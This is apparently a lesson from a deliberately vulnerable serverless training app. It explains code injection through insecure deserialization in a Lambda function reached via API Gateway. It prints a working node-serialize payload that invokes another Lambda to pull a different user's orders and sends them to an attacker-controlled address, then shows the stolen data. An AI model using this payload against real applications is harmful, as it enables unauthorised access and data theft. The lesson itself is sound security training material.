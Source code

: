 ## LESSON #1: Event Injection

### Code Injection via API Gateway
The application sends all request to an API GW (*https://{string}.execute-api.{region}.amazonaws.com/{stage}/order*). 
All reqursts end up being handled by Lambda function, which invokes another lambda based on the incoming request.

**This function is vulnerable to Code Injection**. The function uses an insecure de-/serialization for the data in the request.

Using the following payload, it is possible to inject code that will be executed by the functioin.
```$$ND_FUNC$$_function (){}()```

For example, to get the orders of another user, we can send the payload:
```
{"action": "_$$ND_FUNC$$_function(){var aws=require(\"aws-sdk\");var lambda=new aws.Lambda();var p = {FunctionName: \"DVSA-ORDER-ORDERS\", InvocationType: \"RequestResponse\", Payload: JSON.stringify({\"user\": \"12312312-1233-1233-1233-123123123123\"})};lambda.invoke(p,function(e,d){ var h=require(\"http\");h.get(\"<ATTACKER_REMOTE_ADDRESS>\"+JSON.stringify(d));}); }()", "cart-id":""}
```
Where the *12312312-1233-1233-1233-123123123123* is the user-id of the user we want to steal the data from, and *<ATTACKER_REMOTE_ADDRESS>* is any address that we can send the data to. E.g. [ngrok](https://ngrok.com/).

The result will be a url-encoded json with the order information we stole:
![alt ngrok](https://i.imgur.com/RjT10B4.png)

After decode it, we get a JSON with the user orders. For example:
```
{"StatusCode":200,"ExecutedVersion":"$LATEST","Payload":"{\"status\": \"ok\", \"orders\": [{\"date\": 0, \"status\": \"100\", \"total\": 0, \"order-id\": \"37e149f9-7fd5-4eff-8214-39ed05305d29\"}, {\"date\": 0, \"status\": \"100\", \"total\": 0, \"order-id\": \"01c9f783-1ddd-42b4-b6e4-d8dfe18b7807\"}, {\"date\": 0, \"status\": \"100\", \"total\": 0, \"order-id\": \"5679749f-7a44-4c15-b8db-360a988e82e7\"}, {\"date\": 0, \"status\": \"100\", \"total\": 0, \"order-id\": \"fff385ef-0000-fafa-0000-87ee1047dfff\"}]}"}
```


The above exmaple is the least of problems you can do with such an attack. Notice that there also admin functions :)

### Command Injection via S3 bucket
